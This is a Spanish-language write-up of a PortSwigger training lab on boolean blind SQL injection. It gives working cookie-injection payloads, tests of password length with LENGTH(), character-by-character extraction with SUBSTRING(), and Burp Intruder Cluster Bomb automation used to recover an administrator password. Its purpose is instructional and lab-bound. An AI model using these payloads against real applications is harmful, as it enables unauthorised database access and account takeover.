








# Write-up - PortSwigger SQLi Lab 10

Voy a hacer un laboratorio de Port Swigger. El lab 9 de SQLi (En esta url: https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses)

## Descripción:

**Lab: Blind SQL injection with conditional responses**

**Traducción al Español:**

**Laboratorio: inyección SQL ciega con respuestas condicionales.**

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

**Traducción:**
Este laboratorio contiene una vulnerabilidad de inyección SQL ciega. La aplicación usa una cookie de rastreo para analítica y realiza una consulta SQL que contiene el valor de la cookie enviada.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a Welcome back message in the page if the query returns any rows.

**Traducción:**
Los resultados de la consulta SQL no se devuelven y no se muestran mensajes de error. Pero la aplicación incluye un mensaje de **Welcome back** en la página si la consulta devuelve alguna fila.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

**Traducción:**
La base de datos contiene una tabla diferente llamada `users`, con columnas llamadas `username` y `password`. Necesitas explotar la vulnerabilidad de inyección SQL ciega para averiguar la contraseña del usuario `administrator`.

To solve the lab, log in as the administrator user.

**Traducción:**
Para resolver el laboratorio, inicia sesión como el usuario `administrator`.

---

## PARAMETRO VULNERABLE

**tracking cookie**

---

## Por tanto nuestro Objetivo Principal es:

- Numerar la contraseña del administrador
- Log in como administrador

---

## Apertura del laboratorio

Le damos a abrir lab y nos abre una página con la url:

`https://0a4c00060443c1d281c11689002700d1.web-security-academy.net/`

La página web tiene el aspecto de la imagen 1.



**Referencia a la imagen 1:** Vista inicial del laboratorio. Se observa la tienda vulnerable y, aunque visualmente no se ve nada raro, el punto importante de este lab no está en un parámetro visible de la URL sino en una **cookie** que la aplicación usa internamente para analítica.

---

## Preparación del entorno

Una vez dentro, abrimos burpsuitepro y en el navegador activamos el FoxyProxy para que en el HTTP History vayan apareciendo las distintas Requests mientras navegamos por la página.

Como ya nos da pistas la descripción del laboratorio, tenemos una cookie de rastreo que la aplicación usa internamente para hacer una consulta SQL. Para ello, nos vamos a la categoria de Gifts =>

`https://0a4c00060443c1d281c11689002700d1.web-security-academy.net/filter?category=Gifts`

---

## 1) Confirmar tracking cookie (Parámetro) es vulnerable a Blind SQLi

Para ello, desde burpsuite enviamos dicha petición al Repeater:

```http
GET /filter?category=Gifts HTTP/1.1
```

Y vemos que efectivamente dicha petición tiene la tracking cookie:

```http
Cookie: TrackingId=0QYm3kItC5yZWmIw;
```

y si le damos a send, en la respuesta, el mensaje con el que vamos a jugar es: **Welcome back!** (en la imagen 2, arriba a la derecha nos sale).



**Referencia a la imagen 2:** Respuesta positiva de la aplicación. Aquí el detalle clave es la aparición del mensaje **Welcome back!**, que se convierte en nuestro indicador booleano. En este laboratorio no vemos errores SQL ni resultados directos de consultas: solo un comportamiento diferente en la respuesta.

Si modificamos dicha cookie por cualquier otra, nos sale un `200 OK` pero ese mensaje de **Welcome back!** ya no nos sale.

Por tanto vemos que:

- Si ID existe -> BBDD nos devuelve info. -> Welcome back!
- Si ID no existe -> BBDD NO devuelve info. -> No vemos el mensaje

Ahora tenemos que modificar esta query de PortSwigger para obtener lo que queremos:

```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
```

### Primer payload de prueba

Para ello:
Ponemos en la petición:

```http
Cookie: TrackingId=0QYm3kItC5yZWmIw' and 1=1--';
```

y vemos que nos muestra **Welcome back!** otra vez.

### Por qué no añadimos la consulta entera?

```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
```

Porque ya la está haciendo internamente así:

```sql
SELECT TrackingId FROM TrackedUsers WHERE
```

y lo restante lo tenemos que meter nosotros.

Si ahora en la cookie metemos un `2` al final ya no nos sale **Welcome back!**:

```http
Cookie: TrackingId=0QYm3kItC5yZWmIw2' and 1=1--';
```

y tampoco si ponemos `1=0`:

```http
Cookie: TrackingId=0QYm3kItC5yZWmIw' and 1=0--';
```

Entonces ya sabemos que ese `and` del `1=1` funciona.

### Explicación técnica detallada

Aquí no estamos viendo datos de la base de datos en pantalla. Lo único que vemos es una diferencia condicional:

- condición verdadera -> aparece **Welcome back!**
- condición falsa -> no aparece

Eso es exactamente una **Blind SQL Injection booleana**.

Además:

- `'` cierra la cadena original
- `and 1=1` fuerza una condición verdadera
- `--` comenta el resto de la consulta
- el `;` final es simplemente parte del valor visible que se estaba usando en la cookie

### Conclusión del paso 1

La cookie `TrackingId` es vulnerable a Blind SQLi y el mensaje **Welcome back!** será nuestro oráculo booleano para extraer información.

---

## 2) Confirmar que existe la tabla `users`

Ahora queremos asegurarnos de que la tabla `users` que se nos dice también funciona.

Payload:

```sql
' and (select 'x' from users LIMIT 1) = 'x'--'
```

### Por qué eso

Porque por cada fila de la tabla `users` me va a sacar una `x`, no el campo de `username` ni `password`, y luego limitamos a una sola `x`.

Por tanto si existe la tabla `users` nos va a devolver una sola `x` y por tanto:

```sql
'x' = 'x'
```

es correcto.

Si no existiese dicha tabla nos devolvería `NULL` y por tanto `NULL = 'x'` sería falso y no recibiríamos el **Welcome back!**

Al poner esto:

```sql
' and (select 'x' from users LIMIT 1) = 'x'--'
```

Nos muestra: **Welcome back!**

### Explicación técnica detallada

Esta técnica sirve para validar la existencia de tablas sin necesitar ver los datos.

- `select 'x' from users LIMIT 1` devuelve un valor fijo si la tabla existe y tiene al menos una fila.
- la comparación final convierte ese resultado en una condición booleana
- la aplicación nos informa indirectamente del resultado con el mensaje visible

### Conclusión del paso 2

Queda confirmado que la tabla `users` existe.

---

## 3) Confirmar que el usuario administrator existe en la tabla `users`

Consulta explicativa:

```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = '0QYm3kItC5yZWmIw' and (select username from users where username = 'administrator') = 'administrator' --'
```

Ponemos en la petición:

```http
Cookie: TrackingId=0QYm3kItC5yZWmIw' and (select username from users where username = 'administrator') = 'administrator' --'
```

y efectivamente nos muestra: **Welcome back!**

Esa consulta nos comprueba que el usuario `administrator` existe:

- Si existe: `administrator = administrator`
- Si no existe: `NULL = administrator`

### Explicación técnica detallada

La subconsulta:

```sql
(select username from users where username = 'administrator')
```

solo devolverá algo si existe ese usuario. Si existe, devolverá `administrator`. Si no, no devolverá ninguna fila útil, y la comparación global fallará.

### Conclusión del paso 3

El usuario `administrator` existe en la tabla `users`.

---

## 4) Enumerar la contraseña de usuario ADMINISTRATOR

Primero necesitamos conocer la longitud del password.

Consulta:

```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = '0QYm3kItC5yZWmIw' and (select username from users where username = 'administrator' AND LENGTH(password) > 1) = 'administrator'--'
```

Nos muestra: **Welcome back!**

Por tanto sabemos que la contraseña tiene más de un carácter.

Después probamos:

```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = '0QYm3kItC5yZWmIw' and (select username from users where username = 'administrator' AND LENGTH(password) > 30) = 'administrator'--'
```

No nos muestra: **Welcome back!**

Por tanto la longitud es entre 1 y 30.

### Explicación detallada

La idea aquí es usar la condición sobre `LENGTH(password)` para convertir una propiedad del dato en una respuesta booleana visible.

- si `LENGTH(password) > n` es verdadero -> aparece `Welcome back!`
- si es falso -> desaparece el mensaje

Así podemos acotar la longitud del password sin ver el password.

---

## Automatizar la longitud con Intruder

Por tanto vamos a enviar la petición a Intruder para hacer fuerza bruta y seleccionamos variable de fuerza bruta esta: `30`

y en el Payload ponemos de tipo **number** y **sequential** desde 1 hasta 30: (imagen 3) y le damos a **start attack**:



**Referencia a la imagen 3:** Configuración de Intruder para bruteforcear la longitud de la contraseña. Se usa un payload numérico secuencial desde 1 hasta 30.

y en la imagen 4 vemos hasta la 19 todas tienen la misma longitud y partir de 19 cambia la longitud de `5594` a `5533`, además en la 19 tenemos el mensaje **welcome back** y en la 20 NO.



**Referencia a la imagen 4:** Resultados del ataque para enumerar la longitud. Aquí la clave está en observar el cambio de longitud de respuesta y correlacionarlo con la presencia o ausencia del mensaje **Welcome back!**.

Por tanto al tener más de 19 carácteres y no más de 20 es que tiene una longitud exacta de **20 caracteres**.

### Conclusión del paso 4

La contraseña del usuario `administrator` tiene exactamente **20 caracteres**.

---

## 5) CONOCER LA CONTRASEÑA EXACTA LETRA POR LETRA

Consulta base:

```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4' and (select substring(password,1,1) from users where username='administrator')='a'--'
```

si con `a` nos devuelve **WELCOME BACK** es que la primera letra de la contraseña es `a`, si no nos devuelve `a` probamos con `b` y así sucesivamente hasta obtener **WELCOME BACK**. Una vez obtenida pasamos a la segunda letra de la contraseña y así sucesivamente.

### Explicación técnica detallada

`substring(password,1,1)` significa:

- extrae el password
- empieza en la posición 1
- devuelve 1 solo carácter

Y lo compara con el valor que estamos probando. Si coincide, la respuesta positiva aparece. Si no coincide, desaparece.

---

## Vamos a hacerlo con Intruder de BurpSuite

Seleccionamos toda la consulta:

```sql
and (select substring(password,1,1) from users where username='administrator')='a'--'
```

y le damos **Ctrl + u** para URL encodearla porque si no no funciona.

### Por qué hay que URL-encodear

Porque estamos inyectando caracteres especiales dentro de una cookie HTTP. Si no codificamos correctamente:

- comillas
- espacios
- paréntesis
- signos especiales

la petición puede romperse o no ser interpretada correctamente por el servidor.

Ponemos la variable de fuerza bruta sobre la `a`, de tipo **fuerza bruta** y mínima y máxima longitud `1` (imagen 5, tenemos configurado el ataque ahí) y le damos a **Start Attack**:



**Referencia a la imagen 5:** Configuración del ataque de fuerza bruta para descubrir un único carácter del password. Se define un conjunto de caracteres alfanuméricos y se fija longitud mínima y máxima en 1.

Y nos sale como única longitud diferente la `k` (`5559` frente `5498` del resto) y si abrimos la respuesta de la `k` obtenemos el **Welcome Back**. Por tanto, sabemos que la primera letra es la `k`.

### Conclusión parcial

La primera letra de la contraseña es:

```text
k
```

---

## Automatizar todo el proceso con Cluster Bomb

Como tenemos que automatizar todo el proceso, en vez de ir una por una 20 veces vamos a hacer lo siguiente:

Para ello, dentro del intruder, vamos a cambiar de **Sniper attack** a **Cluster bomb attack** para tener dos variables de fuerza bruta.

Le damos al primer uno de aquí:

```sql
(password,1,1)
```

como primera variable de fuerza bruta (**Payload Position 1-1**) tipo **Numbers** y `from 1 to 20`.

La segunda variable de fuerza bruta es la `a` de antes (**Payload Position 2-a**) y tipo **Brute Forcer** **Min y Max length = 1**

Una vez configurado le damos a **start attack**.

Ahora sí nos sale. Y filtramos por la columna de longitud de respuesta.

### Qué hace realmente Cluster Bomb aquí

Prueba todas las combinaciones entre:

- posición del password: 1, 2, 3, ..., 20
- carácter candidato: a-z y 0-9

De esta manera, para cada posición del password se prueba cada carácter posible del conjunto definido. El que produce la respuesta distinta es el correcto para esa posición.

En la imagen 6 tenemos los caracteres desordenados de la contraseña (Posiciones Payload 1, y caracteres Payload 2)



**Referencia a la imagen 6:** Resultado del ataque Cluster Bomb. Aquí aparecen emparejadas la posición del carácter y el carácter correcto encontrado. La contraseña final se reconstruye ordenando por la posición.

Si lo reconstruimos nos da:

```text
kzrb039phdl1nqt4vxha
```

### Conclusión del paso 5

La contraseña exacta del usuario `administrator` es:

```text
kzrb039phdl1nqt4vxha
```

---

## Login final como administrator

Ahora nos logueamos con el `administrator` y esa contraseña para completar el laboratorio:

Nos vamos a **My account** y rellenamos los campos con `administrator` y `kzrb039phdl1nqt4vxha` (imagen 7)



**Referencia a la imagen 7:** Formulario de login rellenado con el usuario `administrator` y la contraseña obtenida mediante enumeración ciega carácter a carácter.

y le damos a login: y nos redirecciona al panel de `administrator` (imagen 8)



**Referencia a la imagen 8:** Panel final del usuario `administrator` y banner de laboratorio resuelto.

**Laboratorio resuelto**

---

## Resumen técnico completo del proceso

En este laboratorio hemos seguido una metodología completa de **Blind SQL Injection con respuestas condicionales**, basada en un indicador booleano visible en la página:

1. **Identificar el parámetro vulnerable**
   - `TrackingId` en la cookie

2. **Confirmar el patrón de respuesta**
   - Si la consulta devuelve filas -> aparece `Welcome back!`
   - Si no devuelve filas -> no aparece

3. **Validar la inyección booleana**
   - `and 1=1` funciona
   - `and 1=0` no funciona

4. **Confirmar la existencia de la tabla `users`**
   - Mediante una subconsulta con `'x'`

5. **Confirmar la existencia del usuario `administrator`**
   - Mediante una subconsulta sobre `username`

6. **Determinar la longitud del password**
   - Mediante condiciones con `LENGTH(password) > n`

7. **Automatizar la longitud con Intruder**
   - Payload numérico secuencial
   - Observación de diferencias de longitud / contenido

8. **Extraer la contraseña letra por letra**
   - Con `substring(password,pos,1)='c'`

9. **Automatizar todas las posiciones con Cluster Bomb**
   - Payload 1 = posición
   - Payload 2 = carácter

10. **Reconstruir el password y autenticarse**
   - `kzrb039phdl1nqt4vxha`

---

## Payloads clave utilizados

### Confirmación booleana básica
```http
Cookie: TrackingId=0QYm3kItC5yZWmIw' and 1=1--';
Cookie: TrackingId=0QYm3kItC5yZWmIw' and 1=0--';
```

### Confirmar existencia de la tabla `users`
```sql
' and (select 'x' from users LIMIT 1) = 'x'--'
```

### Confirmar existencia del usuario `administrator`
```sql
' and (select username from users where username = 'administrator') = 'administrator' --'
```

### Comprobar longitud del password
```sql
' and (select username from users where username = 'administrator' AND LENGTH(password) > 1) = 'administrator'--'
' and (select username from users where username = 'administrator' AND LENGTH(password) > 30) = 'administrator'--'
```

### Extraer un carácter concreto
```sql
' and (select substring(password,1,1) from users where username='administrator')='a'--'
```

### Automatización completa
- Payload 1 = posición de 1 a 20
- Payload 2 = charset alfanumérico de longitud 1

---

## Conclusión

Este laboratorio enseña una técnica muy importante: **explotar una SQL injection aunque no veamos ni errores ni resultados directos de la base de datos**.

Aquí la vulnerabilidad es ciega, pero la aplicación nos da una pista indirecta a través del mensaje **Welcome back!**. A partir de esa diferencia de comportamiento, podemos:

- verificar condiciones booleanas
- confirmar tablas
- confirmar usuarios
- deducir la longitud del password
- extraer la contraseña carácter a carácter

Es decir, aunque no haya salida directa de SQL, la vulnerabilidad sigue siendo totalmente explotable.

**Contraseña obtenida del usuario `administrator`:**

```text
kzrb039phdl1nqt4vxha
```

**Laboratorio resuelto.**

